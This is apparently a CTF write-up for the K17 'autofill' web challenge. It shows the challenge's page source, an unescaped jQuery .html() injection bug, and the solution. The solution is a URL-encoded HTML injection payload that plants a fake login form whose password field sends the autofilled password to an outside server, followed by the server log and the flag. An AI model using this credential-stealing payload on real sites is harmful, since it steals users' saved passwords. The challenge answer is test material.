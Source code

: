 # autofill

```
My colleague's web browser autofills his password whenever he loads a page. Can you find his password?

autofill-web.k17.kctf.cloud
nc xss-bot-autofill.k17.kctf.cloud 1337 
```

Attachment:

```html
<!DOCTYPE html>
<html lang="en" data-theme="light">

<head>
    <meta charset="UTF-8" />
    <title>Color Viewer</title>
    <link rel="stylesheet" href="https://unpkg.com/@picocss/pico@latest/css/pico.min.css" />
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.7.1/jquery.min.js"></script>
    <style>
        #colorBox {
            width: 200px;
            height: 200px;
            border-radius: 1rem;
            border: 2px solid var(--pico-muted-border-color);
            margin-top: 1rem;
        }
    </style>
</head>

<body>
    <main class="container">
        <article>
            <h1>🎨 Color Viewer</h1>
            <p id="color-name"></p>
            <div id="app"></div>
            <footer>
                <a href="login.html" role="button">Go to Login</a>
            </footer>
        </article>
    </main>

    <script>
        function getQueryParam(name) {
            const params = new URLSearchParams(window.location.search);
            return params.get(name);
        }

        const color = getQueryParam("color") || "blue";

        $("#color-name").text(`Showing color: ${color}`);
        $("#app").html(`<div id="colorBox" style="background-color: ${color}"></div>`);
    </script>
</body>

</html>
```

There is a html injection bug:

```javascript
$("#app").html(`<div id="colorBox" style="background-color: ${color}"></div>`);
```

By using the url <https://autofill-web.k17.kctf.cloud/index.html?color=%22%3E%3Cform%3E%3Clabel%3EUsername%3Cinput%20type=%22text%22%20name=%22username%22%20/%3E%3C/label%3E%3Clabel%3EPassword%3Cinput%20type=%22password%22%20name=%22password%22%20onchange=%22xhr%20=%20new%20XMLHttpRequest();xhr.open(%27GET%27,%20%27https://REDACTED/%27%2bthis.value,%20false);xhr.send();%22%20/%3E%3C/label%3E%3C/form%3E%22>, the html becomes:

```html
<div id="colorBox" style="background-color: ">
    <form>
        <label>Username<input type="text" name="username"></label>
        <label>Password<input type="password" name="password" onchange="xhr = new XMLHttpRequest();xhr.open('GET', 'https://REDACTED/'+this.value, false);xhr.send();"></label>
    </form>
    ""&gt;
</div>
```

Send the url to the xss bot, then we can find the flag in the HTTP server's log:

```
"GET /%20K17%7Bt1me_t0_s3tup_a_prim4ry_pa55w0rd%7D HTTP/2.0" 200 1152 "https://autofill-web.k17.kctf.cloud/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36"
```

Flag: `K17{t1me_t0_s3tup_a_prim4ry_pa55w0rd}`.

